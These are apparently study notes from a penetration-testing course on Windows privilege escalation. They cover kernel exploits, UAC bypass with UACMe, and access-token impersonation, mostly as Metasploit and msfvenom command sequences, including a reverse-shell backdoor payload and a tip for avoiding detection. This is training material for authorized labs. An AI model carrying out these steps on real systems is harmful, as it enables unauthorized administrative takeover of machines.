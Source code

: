 
# Windows Privilege Escalation
#### Windows Kernel Exploits:
##### Elevate privileges from one user to another, a user with administrative or root access
#### Windows Kernal
- kernel is a computer program that is the core of an operating system
- Windows NT is the kernel that comes pre-packed with all versions of Microsoft Windows
- has two main modes
	- User Mode 
	- Kernel Mode - has unrestricted access
#### Windows Kernal Exploitation
- privilege escalation on Windows systems will follow the following methodology
	- identifying Kernel vulnerabilities
	- downloading, compiling and transferring kernel exploits onto the target system
- process differs for different Windows versions
- tools
	- Windows-Exploit-Suggester
	- Windows-Kernel-Exploits
- techniques - Manually, Metasploit
- Metasploit
	- obtain a meterpreter session on your target
	- use a the suggester module to check kernel vulns
	- use an exploit
	- that is it
- Manually
	- use two previous tools
 	- put the exploit file to Temp to avoid getting detected 

### Bypassing UAC with UACMe
- User Account Control
	- windows security feature
- Bypassing UAC
- have access to a user account that is part of local administrator group
- tools to be used depends on the version of windows running
- UACMe - tool
	- allows attackers to execute malicious payloads with administrative privileges
- Process
- `$ nmap -sV 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ setg RHOSTS 10.10.10.10`
- `$ search rejetto``
- `$ use `
- `$ set options`
- `$ run`
- Check if the user is part of the administrator group
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate 2448`
- `$ sysinfo`
- `$ getprivs`
- `$ shell`
- `$ net user`
- `$ net localgroup administrators`
- **using UACMe**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourip LPORT=1234 -f exe > backdoor.exe`
- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST your IP`
- `set LPORT 1234`
- `run`
- back to first Metasploit
- `cd C:\\`
- `mkdir Temp`
- `cd Temp`
- `upload backdoor.exe`
- `upload /root/Desktop/tools/UACME/Akagi64.exe`
- `shell`
- `.\Akagi64.exe 23 C:\Temp\backdoor.exe`
- back to second Metasploit

### Access Token Impersonation
- are core element of the authentication process on windows
- are created and managed by the Local Security Authority Subsystem Service (LSASS)
- controls what users can and cannot on the system
- two types
	- Impersonate-level tokens
	- Delegate-level tokens
- privilleges are required for successful impersonation attack
	- SeAssignPrimaruToken
	- SeCreateToken
	- SelmpersonatePrivilege
- The Incognito Module
	- built-in meterpreter module
	- we use for displaying a list of available tokens that we can impersonate
- **sample process** 
- `$ nmap 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ search rejetto`
- `$ use 0`
- `$ set options`
- `$ run`
- `$ sysinfo`
- `$ pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- we have the SeImpersonatePrivilege
- **using Incognito module**
- `$ load incognito`
- `$ list_tokens -u `
- `$ impersonate_token "Attackdefence\admmm...."`
- `$ getuid`
- `$ getprivs`
- `$pgrep explorer`
- `$ migrate to that number`
- `$ getuid`
- `$ getprivs`
- if you don't get the tokens, use the potato attack - will be discussed in another video
